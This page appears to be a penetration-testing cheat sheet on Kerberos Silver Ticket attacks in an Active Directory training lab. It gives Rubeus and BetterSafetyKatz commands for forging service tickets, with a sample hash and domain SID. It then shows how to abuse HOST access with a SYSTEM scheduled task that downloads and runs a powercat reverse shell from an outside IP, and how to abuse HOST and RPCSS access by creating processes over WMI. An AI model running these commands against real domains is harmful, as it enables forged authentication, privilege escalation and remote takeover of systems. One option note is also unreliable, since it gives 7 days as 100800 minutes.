 # Silver Ticket

Silver ticket is signed and encrypted by the hash of **service** account which makes it a valid **TGS** ticket. More OpSec safer than Golden Ticket

## Create The Ticket

{% code overflow="wrap" %}
```powershell
# With Rubeus - HTTP can be changed to HOST, RPCSS, CIFS, LDAP(DC)
Rubeus.exe silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:<machine_account> /sid:<sid_of_domain> /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
# Anothery way
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/target:</td><td>Target server FQDN</td></tr><tr><td>/service:</td><td>The SPN name of service for which TGS is to be created</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt</td><td>ptt: inject ticket to current process</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes.<br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes. (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

## Abusing Services

### HOST

HOST Service permission allows to create scheduled tasks in remote computers\
The Silver ticket needs to be created with the NT Hash of the target machine

```bash
# Check you have permissions 
schtasks /S dcorp-dc.dollarcorp.moneycorp.local

#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1''')'"

#Run created schtask now
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "Job"
```

### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

```bash
#Check you have permissions 
Invoke-WmiMethod -class win32_operatingsystem -ComputerName dcorp-dc

# Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$Program"

gwmi -class win32_operatingsystem -ComputerName dcorp-dc  
```
